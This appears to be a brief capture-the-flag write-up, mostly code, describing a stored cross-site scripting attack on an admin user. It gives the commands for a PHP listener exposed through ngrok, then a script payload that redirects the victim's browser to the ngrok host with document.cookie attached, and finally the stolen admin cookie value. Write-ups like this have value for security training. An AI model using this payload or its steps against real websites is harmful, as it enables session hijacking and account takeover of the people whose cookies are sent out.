 START a localserver with php in a random port
```
php -S localhost:9999
```

Run NGROK to have a online server connected to your localhost
```
ngrok http 9999
```

nrgrok will gives you some links as :
```
http://c334-2a01-e0a-1da-6080-9144-5b5d-8cf3-b2e9.ngrok.io
```

Then, create a javascript script to get the admin cookie [adding a ?cookie get parameter] by:
```
<script> document.location="http://c334-2a01-e0a-1da-6080-9144-5b5d-8cf3-b2e9.ngrok.io?cookie="+document.cookie </script>
```

Finally, insert the xxs injection in the TEXT section, (no in the title) and we have :
```
cookie: ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6
```

So, the cookie is
```
NkI9qe4cdLIO2P7MIsWS8ofD6
```

